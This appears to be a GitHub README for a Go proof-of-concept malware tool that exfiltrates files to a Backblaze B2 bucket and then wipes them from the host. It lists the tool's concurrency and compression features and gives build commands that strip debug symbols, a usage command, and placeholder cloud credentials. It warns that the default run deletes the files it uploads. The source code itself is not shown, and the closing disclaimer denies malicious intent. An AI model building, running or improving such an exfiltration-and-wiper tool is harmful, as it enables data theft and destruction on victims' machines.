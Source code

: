 # golang exfil malware POC

A high-performance file exfil/wiper for Backblaze B2 that uses goroutines for concurrent uploads and zstd compression for reduced file sizes.

## Features

- Concurrent file uploads using goroutines
- zstd compression with fastest preset
- Dynamic CPU-based worker scaling
- Progress tracking
- Glob pattern support for file selection
- Efficient memory usage with buffer pools
- Automatic file grouping for optimal uploads

## Prerequisites

- Go 1.19 or later
- Backblaze B2 account and credentials

# To Build

```bash
go build -ldflags="-w -s" -trimpath -o exfilPOC.exe ./cmd/uploader
```
or for linux (will require you to add in linux target dirs and skip paths in walker.go)

```bash
GOOS=linux GOARCH=amd64 go build -ldflags="-w -s" -trimpath -o exfilPOC.exe ./cmd/uploader
```




## Usage

```bash
./uploader.exe -glob "path/to/files/*.txt" -group-size 100000000
```
or just run it to use default config (note, if you do run this, the files it identifies and exfils will be DELETED from the machine it is ran on)

## Configuration

The application is configured to use:
- Endpoint: s3.region-here.backblazeb2.com
- Bucket: bucket-name-here
- Key ID: key-id-here
- Key Name: key-name-here
- App Key: app-key-here

## NOTICE

This is a proof of concept and is not meant to be used in production or for any malicious purposes. I am not responsible for your actions, or repurposing of this code.



